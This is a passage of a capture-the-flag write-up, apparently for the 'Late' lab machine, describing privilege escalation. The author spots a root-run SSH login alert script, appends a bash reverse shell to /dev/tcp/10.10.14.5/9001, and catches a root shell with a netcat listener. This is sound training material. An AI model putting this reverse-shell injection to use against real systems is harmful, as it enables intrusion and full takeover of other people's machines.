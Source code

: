 - Run pspy and ssh in another window to see some automated processes that fire on a user login
```bash
2022/05/17 17:41:47 CMD: UID=110  PID=30907  | sshd: [net]          
2022/05/17 17:41:47 CMD: UID=0    PID=30908  | /bin/bash /usr/local/sbin/ssh-alert.sh 
2022/05/17 17:41:47 CMD: UID=0    PID=30912  | /bin/bash /usr/local/sbin/ssh-alert.sh 
2022/05/17 17:41:47 CMD: UID=0    PID=30914  | sendmail: MTA: ./24HHfljr030913 from queue     
2022/05/17 17:41:47 CMD: UID=0    PID=30916  | /etc/mail/smrsh/procmail -t -f svc_acc@new -a  -d root 
2022/05/17 17:41:47 CMD: UID=1000 PID=30915  | sshd: svc_acc
```
- ```/usr/local/sbin/ssh-alert.sh``` is custom and it runs as root on a login so it probably warrants a look
	- This is definitely the privesc vector -> root chowns the ssh-alert.sh script to the compromised user on a cronjob
Content of ```/usr/local/sbin/ssh-alert.sh```: 
```bash
#!/bin/bash

RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi
```
- Add a reverse shell to bottom of the file
```bash
echo 'bash -i >& /dev/tcp/10.10.14.5/9001 0>&1' >> /usr/local/sbin/ssh-alert.sh
```
- Log out and back in to fire the script and receive the root shell
```bash
nc -lvnp 9001 
listening on [any] 9001 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.11.156] 34482
bash: cannot set terminal process group (31207): Inappropriate ioctl for device
bash: no job control in this shell
root@late:/# id
id
uid=0(root) gid=0(root) groups=0(root)
```